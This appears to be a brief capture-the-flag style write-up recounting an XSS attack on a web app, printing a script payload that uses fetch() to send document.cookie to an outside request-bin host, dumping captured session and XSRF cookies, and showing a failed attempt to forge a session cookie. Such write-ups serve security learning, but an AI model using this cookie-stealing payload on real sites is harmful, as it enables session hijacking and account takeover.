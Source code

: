 I first tryed to XSS the page and it worked so I gone ahead and create a XSS payload

**<script>fetch('https://hookb.in/Z2mmp6mNZnSR33eLJ6R1?cookie=' + document.cookie)</script>**

This is the cookie on the site:

```
[
    {
        "domain": "35.198.183.125",
        "expirationDate": 1607358623.882555,
        "hostOnly": true,
        "httpOnly": true,
        "name": "manual_review_session",
        "path": "/",
        "sameSite": "lax",
        "secure": false,
        "session": false,
        "storeId": null,
        "value": "eyJpdiI6IjZGZ0FYTldNR083aTdDTVNJcEJndEE9PSIsInZhbHVlIjoiMGJqdlRDbDNxL0U1eVdnR2loUXZpR0VLa2ZzOVEzM1NXb1hCMlg3ZS9NUXN3ZlJYK0haM2RkanpxbW5OMllVZzM4NGhST2ZKQ3VXRnd6ajAxUVM1bFhVbllzNDZUdmxiczByUTFIZi81UHBFZU1PVGRUVGh6QzFQd0I3ZGo5dFQiLCJtYWMiOiI4ZjJkNTU4Yzc5MDA0ZGFlYmQ0YjA4MzE0OTdmY2UzZjE1MmU2NmUyZmVjOWY4ODVhODBiNGM3ZjE3MjFmNGY1In0%3D"
    },
    {
        "domain": "35.198.183.125",
        "expirationDate": 1607358623.882504,
        "hostOnly": true,
        "httpOnly": false,
        "name": "XSRF-TOKEN",
        "path": "/",
        "sameSite": "lax",
        "secure": false,
        "session": false,
        "storeId": null,
        "value": "eyJpdiI6Ik5MZGh0ZlpZUy9DaFkvdkVhVExBM1E9PSIsInZhbHVlIjoiUDVMZWdvL2VyanpQT3pNcXorUWkxd2pTZzBWVEwxNzVpVnE0dDFWRU9uek5EVDZ1c09XMmhPRFZxWXdHZkpva0JDRmkvbms1TkJ4Z0JKVzRNYTBBRmdMQWJYZHJqais2MDlSbzNSeHZMUGVEN3BBbVp6d2M5WnE1aGphTjNRaGkiLCJtYWMiOiIwODgzNzNhMDQyZTBiNTA2NTcwNDVlNGQyNTM0MjczMDQxMmRhMzAyOGEwZjkwYTY1MTZiNDllMGE4ZjQzMjgzIn0%3D"
    }
]
```

and whith this trick i got this cookie **XSRF-TOKEN=eyJpdiI6Ik5MZGh0ZlpZUy9DaFkvdkVhVExBM1E9PSIsInZhbHVlIjoiUDVMZWdvL2VyanpQT3pNcXorUWkxd2pTZzBWVEwxNzVpVnE0dDFWRU9uek5EVDZ1c09XMmhPRFZxWXdHZkpva0JDRmkvbms1TkJ4Z0JKVzRNYTBBRmdMQWJYZHJqais2MDlSbzNSeHZMUGVEN3BBbVp6d2M5WnE1aGphTjNRaGkiLCJtYWMiOiIwODgzNzNhMDQyZTBiNTA2NTcwNDVlNGQyNTM0MjczMDQxMmRhMzAyOGEwZjkwYTY1MTZiNDllMGE4ZjQzMjgzIn0=** and the ip ** 86.125.4.95**
So the new token is 
```
[
    {
        "domain": "86.125.4.95",
        "expirationDate": 1907358623.882555,
        "hostOnly": true,
        "httpOnly": true,
        "name": "manual_review_session",
        "path": "/",
        "sameSite": "lax",
        "secure": false,
        "session": false,
        "storeId": null,
        "value": "eyJpdiI6Ik5MZGh0ZlpZUy9DaFkvdkVhVExBM1E9PSIsInZhbHVlIjoiUDVMZWdvL2VyanpQT3pNcXorUWkxd2pTZzBWVEwxNzVpVnE0dDFWRU9uek5EVDZ1c09XMmhPRFZxWXdHZkpva0JDRmkvbms1TkJ4Z0JKVzRNYTBBRmdMQWJYZHJqais2MDlSbzNSeHZMUGVEN3BBbVp6d2M5WnE1aGphTjNRaGkiLCJtYWMiOiIwODgzNzNhMDQyZTBiNTA2NTcwNDVlNGQyNTM0MjczMDQxMmRhMzAyOGEwZjkwYTY1MTZiNDllMGE4ZjQzMjgzIn0="
    },
    {
        "domain": "86.125.4.95",
        "expirationDate": 1907358623.882504,
        "hostOnly": true,
        "httpOnly": false,
        "name": "XSRF-TOKEN",
        "path": "/",
        "sameSite": "lax",
        "secure": false,
        "session": false,
        "storeId": null,
        "value": "eyJpdiI6Ik5MZGh0ZlpZUy9DaFkvdkVhVExBM1E9PSIsInZhbHVlIjoiUDVMZWdvL2VyanpQT3pNcXorUWkxd2pTZzBWVEwxNzVpVnE0dDFWRU9uek5EVDZ1c09XMmhPRFZxWXdHZkpva0JDRmkvbms1TkJ4Z0JKVzRNYTBBRmdMQWJYZHJqais2MDlSbzNSeHZMUGVEN3BBbVp6d2M5WnE1aGphTjNRaGkiLCJtYWMiOiIwODgzNzNhMDQyZTBiNTA2NTcwNDVlNGQyNTM0MjczMDQxMmRhMzAyOGEwZjkwYTY1MTZiNDllMGE4ZjQzMjgzIn0="
    }
]
```

but no luck